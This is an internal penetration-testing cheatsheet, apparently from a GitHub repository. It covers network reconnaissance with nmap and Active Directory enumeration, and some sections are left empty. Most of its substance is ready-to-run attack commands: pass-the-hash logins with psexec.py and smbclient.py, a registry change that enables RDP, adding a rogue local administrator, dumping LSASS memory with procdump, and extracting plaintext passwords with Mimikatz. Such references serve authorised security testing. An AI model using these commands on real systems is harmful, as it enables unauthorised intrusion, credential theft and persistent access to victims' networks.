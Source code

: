 # Internal Pentest Cheetsheet

## Recon
1) Use wireshark to listen for 30mins, once completed sift through it and try to identify hosts/interesting things.
2) Get/determine subnets in scope and add them to a file called ips.txt.
3) Run nmap ping scans to determine which hosts are up in the subnet, then full TCP/UDP scan. The below command does it all and saves at every step.
```
nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms --max-retries 0 -sn \
-iL ./ips.txt > results_all.txt && cat results_all.txt | grep up -B1 | cut -d " " -f5 | \
grep 10 >> cleaned_ips.txt && nmap --max-rtt-timeout 100ms --initial-rtt-timeout 100ms \ 
--max-retries 0 -sS -sU -sC -sV -O -T4 -p- -v -n -Pn -PS -A --open -iL ./cleaned_ips.txt -oA *CLIENT NAME*
```
4) Now you have all the up hosts, their ports etc, feed the XML into pentest-machine, it'll speed up the enumeration of large subnets.
5) Eliminate low hanging fruit
6) If user account is provided, use bloodhound or AD-Recon to enumerate all of AD.
  Feed AD-Recon's Computers.csv into fruity-ad.py - it'll show you what you can pwn easily.
7) Profit

## Exploitation


## Post-Exploitation


## Useful shit

### Dont always have to crack the hash, maybe pass it??
```
psexec.py -hashes LM:NTLM DOMAIN/User@IP
smbclient.py -hashes LM:NTLM DOMAIN/User@IP
```
MSF Allows you to use the NTLM hash in the password field in exploit/windows/smb_psexec
Don't forget that native upload (Target 3) works if powershell is disabled on the box

### Enable RDP from CMD
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

### Create localadmin
```
net user *username* *password* /add
net localgroup administrators *username* /add
net localgroup "Remote Desktop Users" *username* /add
```

### Procdump LSASS for creds
This creates a memory dump using the procdump sysinternals tool. 
#### 32bit
`C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp`
#### 64bit
`C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp`
#### Mimikatz Extaction
```
sekurlsa::minidump lsass.dmp
sekurlsa::passwords full
```
